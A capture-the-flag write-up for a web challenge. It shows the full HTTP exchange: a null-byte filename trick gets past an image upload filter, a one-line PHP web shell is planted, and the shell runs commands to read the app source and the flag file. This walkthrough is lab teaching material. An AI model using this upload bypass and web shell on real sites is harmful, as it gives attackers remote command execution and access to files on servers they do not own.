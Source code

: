 Deep within an ancient temple, offerings must be made to gain the gods' favor. The altar accepts only sacred images—or so it seems.

With clever hands and the right format, perhaps you can slip in something more… divine. If your offering is accepted and interpreted correctly, the gods may whisper their secrets.

![](TheTempleOfThoth_Hint.png)

Hint:
The sacred inscriptions are safeguarded by deception, but an addition might deceive the temple's guardians.

Adding Null bytes to be able to upload the file and get a link.
```http
POST / HTTP/1.1
Host: 167.172.174.178:5000
Content-Length: 236
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://167.172.174.178:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygyGljJRYdT8AqdXS
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://167.172.174.178:5000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundarygyGljJRYdT8AqdXS
Content-Disposition: form-data; name="file"; filename="test.php%00.jpg"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

------WebKitFormBoundarygyGljJRYdT8AqdXS--
```

```html
       <p><strong>Offering received: 200_test.php. Available at: <a href='http://167.172.174.178:8000/200_test.php' target='_blank'>http://167.172.174.178:8000/200_test.php</a></strong></p>
```

```http
GET /200_test.php?command=id HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:33:54 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)
uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)
```


```http
GET /200_test.php?command=cat+../app.py HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

The path to the flag file is found here:  
```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:35:04 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

from flask import Flask, request, render_template, send_from_directory, jsonify
import os
import urllib.parse
import re
import subprocess
from translator import text_to_hieroglyphs, hieroglyphs_to_text  # Import translation functions

app = Flask(__name__)
UPLOAD_FOLDER = "/app/uploads/"
FLAG_FILE = "/home/ctfuser/flag.txt"
PHP_EXECUTABLE = "/usr/local/bin/php"

ALLOWED_EXTENSIONS = {"png", "jpg", "jpeg"}
[...]
```


```http
GET /200_test.php?command=cat+/home/ctfuser/flag.txt HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:36:39 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

O24{54cr3d_up104d_3xp10i7}
O24{54cr3d_up104d_3xp10i7}
```